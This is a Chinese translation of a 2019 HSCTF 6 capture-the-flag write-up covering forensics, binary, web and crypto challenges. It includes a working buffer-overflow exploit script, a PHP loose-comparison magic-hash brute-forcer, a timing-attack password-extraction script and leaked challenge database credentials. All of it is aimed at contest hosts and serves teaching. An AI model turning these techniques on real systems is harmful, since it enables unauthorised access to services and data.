


# HSCTF 6 CTF Writeups 
*Soumyadeep Basu Jun 8, 2019*  
原文地址：https://medium.com/@sbasu7241/hsctf-6-ctf-writeups-a807f0b25ae4
  
 
这周,我们决定去参加WW-P HSN CS Club组织的HSCTF 6。这场CTF的赛题琳琅满目，既有一些非常简单的，又有一些实属困难，但是这一切都很有乐趣。  
  
非常有趣的是，这场CTF主办方布置的DISCORD机器人(Keith Bot)被黑了，并被用来向不同的DISCORD频道投放flag。这个机器人很快被关闭了，相关的题目也立刻被撤下了。   
 

## * Forensics  
### Double Trouble
> 考拉究竟是什么？  
  

在这个挑战中，我们得到了两个```.png```文件 ```koala```和```koala2```，  
   
使用```file```,```binwalk```,```exiftool```和```strings```进行初始文件分析没有任何结果。我们猜测它可能是一个```XOR```挑战，并对图片进行了```XOR```但仍然失败了。  
  
在使用```zsteg```检测了```koala.png```和```koala2.png```后，我们发现了以下信息：  
> \> zsteg koala2.png  
> \> zsteg koala.png  
  
  
打开这个超链接我们获得一个文本文件```hmmm.txt```。初始文件分析结果表明：  
> *hmmm.txt: GPG symmetrically encrypted data (AES cipher)*  
  
因此我们需要使用如下密码对文件进行GPG算法解密:  
```“whatdowehavehere”```  
  
> Flag: hsctf{koalasarethecutestaren'tthey?}  
  
### Skywriting v2  
  
Hint:  
  
我们发现这是最困难的取证挑战。它本身几乎就是一个猜谜游戏  
> Encrypted flag  : LjUlMiA9LxI1GTUTNiodECAtUSx5YxY4  
其他人的Write-up:  
> https://github.com/Hong5489/hsctf6/tree/master/skywritter  
  
## * Binary Exploitation
### Return to Sender  
  
这是二进制挑战中最简单的，它只需要使用者进行一次简单的缓冲区溢出。  
```
$ pwn checksec return-to-sender
[*] '/root/Downloads/return-to-sender
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000
```  
正如你所见的，这个程序并没有使用stack canary机制，这让我们可以通过```gets```调用对```vuln()```函数的```dest```缓冲区进行溢出。
  
  
以下为利用脚本：
```
from pwn import * 
p = remote('pwn.hsctf.com', 1234)
buf = 'A'*20
win = p32(0x080491b6)
payload = buf + win
p.sendline(payload)
p.interactive()
```
  
> Script Credit : [Overwatch](https://github.com/Justin-Kereszturi)  
  
  
>  Flag: hsctf{fedex_dont_fail_me_now}  

## * Web  
### Agent Keith  
  
Web页面显示我们没有权限获得flag,*agent*清晰的暗示了```User Agent```。
  
对页面源代码的检查揭示了我们需要更改```*User-Agent*```请求头为 "```NCSA_Mosaic/2.0 (Windows 3.1)```"  
  
我们使用Firefox的开发者工具编辑```User Agent```头并发起一个新的请求：  
  
在响应包中我们获得了flag:)  
  
  
```Flag: hsctf{wow_you_are_agent_keith_now}```

### md5 — —
  
检查页面的PHP源代码我们可知：
```
<?php
$flag = file_get_contents("/flag");

if (!isset($_GET["md4"]))
{
    highlight_file(__FILE__);
    die();
}

if ($_GET["md4"] == hash("md4", $_GET["md4"]))
{
    echo $flag;
}
else
{
    echo "bad";
}
?>
```
显然这个挑战需要我们提供一个它的md4 hash等于它本身的字符串。这样的字符串不一定会存在的:(  

比较运算符使用了'```==```'而不是严格比较符"```===```"，这就意味着我们可以通过PHP类型之间的转换问题来进行攻击。  
为此，我们提供一个```0e```开头的数字，它的md4 hash也以```0e```开头，并且仅包含数字。  
这样做是因为这种数字将在(非严格)比较时将返回true:
```
<?php
echo intval('0e548' == '0e547'); // result 1, which means TRUE
echo intval('0e548' === '0e547'); // result 0, which means FALSE
?>
```
我想着尝试去暴力破解md4 hash。在我进行了大量搜索后，我发现了HackDatKiwi CTF的一个相似的挑战，它需要相同的md5 hash值。你可以在[这里](https://github.com/bl4de/ctf/blob/master/2017/HackDatKiwi_CTF_2017/md5games1/md5games1.md)看到这个挑战。
  
在修改代码以适合我们的喜好后，它看起来像这样：
```
#!/usr/bin/env python
import hashlib
import Crypto.Hash.MD4
import re
prefix = '0e'
def breakit():
    iters = 0
    while 1:
        s  = (prefix + str(iters)).encode('utf-8')
        hashed_s = hashlib.new('md4', s).hexdigest()
        iters = iters + 1
        r = re.match('^0e[0-9]{30}', hashed_s)
        if r:
            print ("[+] found! md4( {} ) ---> {}".format(s, hashed_s))
            print ("[+] in {} iterations".format(iters))
            exit(0)
        if iters % 1000000 == 0:
            print ("[+] current value: {}       {} iterations, continue...".format(s, iters))
breakit()
```
  
在运行了几分钟并进行了将近2.16亿次迭代后，我得到了能让我得到flag的字符串：  
```
[+] current value: 0e230999999       231000000 iterations, continue...
[+] current value: 0e231999999       232000000 iterations, continue...
[+] current value: 0e232999999       233000000 iterations, continue...
[+] current value: 0e233999999       234000000 iterations, continue...
[+] current value: 0e234999999       235000000 iterations, continue...
[+] current value: 0e235999999       236000000 iterations, continue...
[+] current value: 0e236999999       237000000 iterations, continue...
[+] current value: 0e237999999       238000000 iterations, continue...
[+] current value: 0e238999999       239000000 iterations, continue...
[+] current value: 0e239999999       240000000 iterations, continue...
[+] current value: 0e240999999       241000000 iterations, continue...
[+] current value: 0e241999999       242000000 iterations, continue...
[+] current value: 0e242999999       243000000 iterations, continue...
[+] current value: 0e243999999       244000000 iterations, continue...
[+] current value: 0e244999999       245000000 iterations, continue...
[+] current value: 0e245999999       246000000 iterations, continue...
[+] current value: 0e246999999       247000000 iterations, continue...
[+] current value: 0e247999999       248000000 iterations, continue...
[+] current value: 0e248999999       249000000 iterations, continue...
[+] current value: 0e249999999       250000000 iterations, continue...
[+] current value: 0e250999999       251000000 iterations, continue...
[+] found! md5( 0e251288019 ) ---> 0e874956163641961271069404332409
[+] in 251288020 iterations
```  
在将md4 hash输入URL后：  
  
```
Flag: hsctf{php_type_juggling_is_fun}
```  
### Networked Password  
  
> Hint : You know the flag format  
我们获得了一个仅询问密码的网站并发现输入任意密码后会显示错误。  
  
让我们来看一下页面源代码：  
  
这只是一个简单的form内含一个文字框和一个submit按钮。当我们决定查看不同字符串的响应时间时,有趣的部分就来了。
```
'aaaa' : 233 ms
'h'    : 1.32 s
'hsctf{}': 4.5 s
```
然后我们意识到这是一个基于时间的网络攻击。
在三十分钟的学习后我们想出了：
```
import requests, string

url = 'https://networked-password.web.chal.hsctf.com'
charset = string.letters + string.digits + string.punctuation
# print charset
flag = "hsctf{"
resp = 0
char = ""

while flag[-1] != "}":
    for i in charset:
        payload = {"password":flag + i}
        # print "[*] Trying: " + flag + i
        r = requests.post(url, data = payload)
        if r.elapsed.total_seconds() > resp:
            resp = r.elapsed.total_seconds()
            char = i
    flag += char
    resp = 0
    print "[+] Flag: " + flag
print "--
```
这个脚本会暴力破解网站并且保存最长时间返回的字符。
```
[+] Flag: hsctf{s
[+] Flag: hsctf{sm
[+] Flag: hsctf{sm0
[+] Flag: hsctf{sm0l
[+] Flag: hsctf{sm0l_
[+] Flag: hsctf{sm0l_f
[+] Flag: hsctf{sm0l_fl
[+] Flag: hsctf{sm0l_fl4
[+] Flag: hsctf{sm0l_fl4g
[+] Flag: hsctf{sm0l_fl4g}
```
  
### Accessible Rich Internet Applications  
  
其他人的Write up:  
> https://mrt4ntr4.github.io/HSCTF-ARIA-Writeup/

### Keith Logger  
  
我们下载了```extension.crx```并使用``*file*```工具分析它：
```extension.crx: Google Chrome extension, version 3````  
我们并没有立刻安装这个扩展，而是使用```*binwalk*```工具解析它，并获得了三个文件。  
  
最引人注意的是```content.js```文件：  
  
通过访问内含的链接我们获得了如下文字：  
> Link : https://keith-logger.web.chal.hsctf.com/api/admin
  
这是用于Mongodb数据库连接的凭证。我们将使用robo3t建立一个与数据库的连接：  
  
> Address: keith-logger-mongodb.web.chal.hsctf.com  
> Port: 27017  
> Database: admin  
> Username: admin  
> Password: keithkeithkeith  
  
  
```Flag: hsctf{watch_out_for_keyloggers}```
  
## * Cryptography  
### Really Secure Algorithm  
我们获得了一个内含```n,e,c```值的```txt```文件。  
```
n =   263267198123727104271550205341958556303174876064032565857792727663848160746900434003334094378461840454433227578735680279553650400052510227283214433685655389241738968354222022240447121539162931116186488081274412377377863765060659624492965287622808692749117314129201849562443565726131685574812838404826685772784018356022327187718875291322282817197153362298286311745185044256353269081114504160345675620425507611498834298188117790948858958927324322729589237022927318641658527526339949064156992164883005731437748282518738478979873117409239854040895815331355928887403604759009882738848259473325879750260720986636810762489517585226347851473734040531823667025962249586099400648241100437388872231055432689235806576775408121773865595903729724074502829922897576209606754695074134609  
e = 65537  
c =   63730750663034420186054203696069279764587723426304400672168802689236894414173435574483861036285304923175308990970626739416195244195549995430401827434818046984872271300851807150225874311165602381589988405416304964847452307525883351225541615576599793984531868515708574409281711313769662949003103013799762173274319885217020434609677019589956037159254692138098542595148862209162217974360672409463898048108702225525424962923062427384889851578644031591358064552906800570492514371562100724091169894418230725012261656940082835040737854122792213175137748786146901908965502442703781479786905292956846018910885453170712237452652785768243138215686333746130607279614237568018186440315574405008206846139370637386144872550749882260458201528561992116159466686768832642982965722508678847  
```
让我们尝试分截参数```n```，使用因数数据库（factordb）我们可以知道参数```n```是其他数的平方。因此，通常用来计算欧拉函数的方法是无效的。但这都不是问题，我们将根据脚本进行欧拉函数计算。我们准备了一个Python脚本来解决这个RSA问题：  
```
from pwn import *
import math
def egcd(a, b):
    if a == 0:
        return (b, 0, 1)
    else:
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)
def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
        raise Exception('modular inverse does not exist')
    else:
        return x % m
c =
e =
n =
p =
q =
#n = p*q
#Note when n is perfect square phi = p * (p-1) so change accordingly
phi = (p-1) * (q-1)
d = modinv(e, phi)
m = pow(c, d, n)
flag = unhex(hex(m)[2:])
print('flag: {}'.format(flag))
```
  
我们运行脚本来进行```phi = p*(p-1)```并获得了flag:)  
  
```Flag: hsctf{square_number_time}```  
  
### Welcome to Crypto Land  
  
>密文:  
>KZ6UaztNnau6z39oMHUu8UTvdmq1bhob3CcEFdWXRfxJqdUAiNep4pkvkAZUSn9CvEvPNT5r2zt6JPg9bVBPYuTW4xr8v2PuPxVuCT6MLJWDJp84
  
我们打开[Cyber Chef](https://gchq.github.io/CyberChef/)并使用magic解码字符串。你将从base58解码文本中获得flag。通过链接查看解码操作：
>https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')&input=S1o2VWF6dE5uYXU2ejM5b01IVXU4VVR2ZG1xMWJob2IzQ2NFRmRXWFJmeEpxZFVBaU5lcDRwa3ZrQVpVU245Q3ZFdlBOVDVyMnp0NkpQZzliVkJQWXVUVzR4cjh2MlB1UHhWdUNUNk1MSldESnA4NA  
  
  
  
```Flag: hsctf{w0w_th1s_1s_my_f1rst_crypt0_chall3ng3?}```  
  
### A Lost Cause  
  
  
根据问题陈述，密文中的每个字母就像参考信息一样，每个字母都比前一个字母少了一个位移。我们决定使用python脚本暴力破解密文。对蛮力凯撒密码的脚本进行了稍微修改，以达到我们的目的。
脚本：
```
LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
for key in range(len(LETTERS)):
   temp = key
   translated = ''
   for symbol in message:
      if symbol in LETTERS:
         num = LETTERS.find(symbol)
         num = num - temp
  #print("symbol is %c and key is %d",symbol,temp)
         if num < 0:
            num = num + len(LETTERS)
         translated = translated + LETTERS[num]
      else:
         translated = translated + symbol
      temp = temp-1
      if(temp<0): 
 temp = 25
   print('Hacking key #%s: %s' % (key, translated.lower()))
```  
  
检查hacking key #22:  
  
  
```Flag: hsctf{GLASSESAREUSEFULDONOTLOSETHEM}```